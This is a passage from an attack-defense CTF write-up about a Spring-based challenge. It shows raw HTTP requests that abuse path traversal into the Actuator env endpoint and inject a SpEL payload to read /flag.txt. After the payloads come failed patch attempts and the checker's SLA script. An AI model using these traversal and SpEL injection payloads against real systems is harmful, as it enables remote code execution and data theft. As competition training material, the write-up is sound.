 ```py
    const id = r.body.id || ''
    return forward(r, s, 'POST', `/pokemon/${id}/abilities`)
})
```

To exploit just POST relevant variables to the env.
```http
POST /abilities HTTP/1.1
Host: 116.203.176.73:50805
Content-Type: application/json
Content-Length: 68

{"id": "../actuator/env#", "name":"SHADOW_ENABLE", "value":"true"}
```
```http
POST /abilities HTTP/1.1
Host: 116.203.176.73:50805
Content-Type: application/json
Content-Length: 155

{"id": "../actuator/env#", "name":"SPECIAL_ABILITY", "value":"#{new String(T(java.nio.file.Files).readAllBytes(T(java.nio.file.Paths).get('/flag.txt')))}"}
```
#### Patching
At first I thought expression evaluation is a feature so I patched the SPEL with a `SimpleEvaluationContext` that still evaluate values but are immune to RCE.
```java
if (isShadow()) {
    SimpleEvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().build();
    Expression expressionToEvaluate = PARSER.parseExpression(raw);
    p.setAbility(expressionToEvaluate.getValue(context, parameter, String.class));
}
```
and it fails, -50.

Then I just return whatever the user input as raw string, maybe the checker expect no evaluation.
```java
if (isShadow()) {
     String raw = env.getProperty("SPECIAL_ABILITY");
     if (raw != null) {
         p.setAbility(raw);
     }
}
```
it fails again, -50.

Then I solved the attack part and got the SLA script. Apparently it checks like this:
```py
        r2 = requests.post(f"{base}/abilities", json={
            "id": "../../actuator/env#",
            "name": "SPECIAL_ABILITY",
            "value": '#{"suppppperrrrrrreeassssyyyyychallllennnnggeeeee"}'
        }, timeout=5)
        if r2.status_code != 200:
            return STATUS_DOWN
[snip]
        if "suppppperrrrrrreeassssyyyyychallllennnnggeeeee" in r3.text:
            return STATUS_UNPATCHED
        else:
            return STATUS_PATCHED
```
